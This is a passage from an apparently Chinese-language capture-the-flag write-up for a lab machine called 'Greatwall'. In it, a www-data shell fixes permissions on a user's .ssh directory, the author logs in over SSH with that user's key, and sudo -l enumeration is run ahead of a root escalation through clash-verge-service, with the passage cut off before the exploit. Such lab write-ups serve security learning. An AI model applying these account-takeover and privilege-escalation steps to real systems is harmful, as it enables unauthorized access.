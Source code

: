 ```bash
total 32
drwxrwxrwx 4 wall wall 4096 May 11 02:41 .
drwxr-xr-x 3 root root 4096 May 10 18:54 ..
lrwxrwxrwx 1 root root    9 May 11 00:15 .bash_history -> /dev/null
-rwx------ 1 wall wall  220 May 10 18:54 .bash_logout
-rwx------ 1 wall wall 3526 May 10 18:54 .bashrc
drwx------ 3 wall wall 4096 May 11 00:18 .local
-rwx------ 1 wall wall  807 May 10 18:54 .profile
drwxr-xr-x 2 wall wall 4096 May 11 02:41 .ssh
-rwx------ 1 wall wall 1808 May 11 00:25 user.flag
www-data@greatwall:/home/wall$ cd .ssh
www-data@greatwall:/home/wall/.ssh$ ls -la
total 20
drwxr-xr-x 2 wall wall 4096 May 11 02:41 .
drwxrwxrwx 4 wall wall 4096 May 11 02:41 ..
-rw-r--r-- 1 wall wall  568 May 11 02:41 authorized_keys
-rw------- 1 wall wall 2602 May 11 02:41 id_rsa
-rw-r--r-- 1 wall wall  568 May 11 02:41 id_rsa.pub
www-data@greatwall:/home/wall/.ssh$ cd ..
www-data@greatwall:/home/wall$ sudo -u wall /bin/chmod 700 .ssh
www-data@greatwall:/home/wall$ ls -la
total 32
drwxrwxrwx 4 wall wall 4096 May 11 02:41 .
drwxr-xr-x 3 root root 4096 May 10 18:54 ..
lrwxrwxrwx 1 root root    9 May 11 00:15 .bash_history -> /dev/null
-rwx------ 1 wall wall  220 May 10 18:54 .bash_logout
-rwx------ 1 wall wall 3526 May 10 18:54 .bashrc
drwx------ 3 wall wall 4096 May 11 00:18 .local
-rwx------ 1 wall wall  807 May 10 18:54 .profile
drwx------ 2 wall wall 4096 May 11 02:41 .ssh
-rwx------ 1 wall wall 1808 May 11 00:25 user.flag
www-data@greatwall:/home/wall$ sudo -u wall chmod 700 /home/wall/

```

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202506190103383.png" alt="image-20250619002347652" style="zoom:50%;" />

注意一定要修改 wall 家目录权限！！！

### clash新发漏洞提权root

```bash
──(kali㉿kali)-[~/temp/Greatwall]
└─$ ssh wall@192.168.182.129 -i wall
Linux greatwall 6.1.0-32-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.129-1 (2025-03-06) x86_64

Last login: Thu Jun 19 00:23:22 2025 from 192.168.182.128
wall@greatwall:~$ sudo -l
Matching Defaults entries for wall on greatwall:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User wall may run the following commands on greatwall:
    (ALL) NOPASSWD: /usr/bin/systemctl start clash-verge-service
wall@greatwall:~$ whereis clash-verge-service
clash-verge-service: /usr/bin/clash-verge-service
```
